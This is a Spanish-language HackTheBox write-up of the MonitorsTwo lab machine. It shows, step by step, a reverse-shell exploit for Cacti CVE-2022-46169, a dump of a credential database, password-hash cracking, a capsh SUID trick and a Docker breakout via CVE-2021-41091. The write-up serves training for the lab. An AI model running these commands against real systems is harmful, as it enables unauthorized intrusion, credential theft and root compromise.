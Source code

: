 ```yaml
---
title: HackTheBox - MonitorsTwo
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'RCE (CVE-2022-46169)', 'Docker Breakout (CVE-2021-41091)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/MonitorsTwo/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: MonitorsTwo Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **RCE (CVE-2022-46169), Docker Breakout (CVE-2021-41091)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina MonitorsTwo**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/MonitorsTwo/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/MonitorsTwo/02-versions.png)

c. Vemos el servicio web de la página web

![](/assets/images/HTB/Easy/MonitorsTwo/03-web.png)

* Si buscamos por alguna vulnerabilidad del servicio **cacti 1.2.22** nos encontramos con [CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22/blob/main/CVE-2022-46169.py)

* Nos ponemos en escucha con **nc**, y ejecutamos el script


    ```bash
    root@kali> python exploit.py -u http://10.10.11.211/ --LHOST=10.10.14.174 --LPORT=443
    --------------------------------------------------------------------------------------
    root@kali> nc -lvnp 443
    www-data@50bca5e748b0:/var/www/html$
    ```

### Escalada de Privilegios 💹

a. Estamos en un contenedor

```bash
www-data@50bca5e748b0:/var/www/html$ hostname -I
172.19.0.3
```

* Vemos el fichero **entrypoint.sh** en la raíz del sistema

    ```bash
    www-data@50bca5e748b0:/$ cat entrypoint.sh

    mysql --host=db --user=root --password=root cacti
    <SNIP>
    ```

* Con la cadena conexión de mysql nos conectamos a este servicio y lo inspeccionamos

    ```bash
    www-data@50bca5e748b0:/$ mysql --host=db --user=root --password=root

    MySQL [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | cacti   <---       |
    | mysql              |
    | performance_schema |
    | sys                |
    +--------------------+
    5 rows in set (0.002 sec)

    MySQL [(none)]> use cacti;
    MySQL [(none)]> show tables;

    <SNIP>
    | user_auth          |
    <SNIP>
    MySQL [cacti]> select username, password from user_auth;
    +----------+--------------------------------------------------------------+
    | username | password                                                     |
    +----------+--------------------------------------------------------------+
    | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
    | guest    | 43e9a4ab75570f5b                                             |
    | marcus   | $2y$10$vcrYth5Y[SNIP]                                        |
    +----------+--------------------------------------------------------------+
    ```

b. Crackeamos los hashes de **admin** y **marcus** con john

```bash
root@kali> john hashes.txt -w=/usr/share/wordlists/rockyou.txt
<Hash marcus>:f[SNIP]y
```

c. Estas credenciales nos sirven para autenticarnos en el servicio **`SSH`**

```bash
root@kali> ssh marcus@10.10.11.211
marcus@monitorstwo:~$
```

* Después de inspeccionar todo el sistema en busca de formas de escalar privilegios nos encontramos con este mensaje

    ```bash
    marcus@monitorstwo:~$ cat /var/mail/marcus

    From: administrator@monitorstwo.htb
    To: all@monitorstwo.htb

    CVE-2021-33033: This vulnerability <SNIP>
    CVE-2020-25706: This cross-site scripting <SNIP>
    CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization.<SNIP>
    ```

* La vulnerabilidad que más nos llama la atención es **`CVE-2021-41091`** ya que implica el uso de Docker. Al buscar un exploit con ese CVE con encontramos con [esto](https://github.com/UncleJ4ck/CVE-2021-41091), para que este script funcione debemos darle permiso **SUID** a la bash de un contenedor


d. Buscaremos formas de escalar privilegios en el contenedor

```bash
www-data@50bca5e748b0:/var/www/html$ find / -perm -4000 2>/dev/null
<SNIP>
/sbin/capsh
```

* En [gtfobins](https://gtfobins.github.io/gtfobins/capsh/#suid) encontramos una forma, y le daremos permiso SUID a la bash

    ```bash
    www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
    root@50bca5e748b0:/var/www/html# chmod +s /bin/bash
    ```

e. Por último ejecutamos el [script](https://github.com/UncleJ4ck/CVE-2021-41091) y conseguiremos acceso como root

```bash
marcus@monitorstwo:/tmp$ ./exploit.sh

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes

[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didnt spawn a shell go to this path and execute './bin/bash -p'

marcus@monitorstwo:/tmp$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
```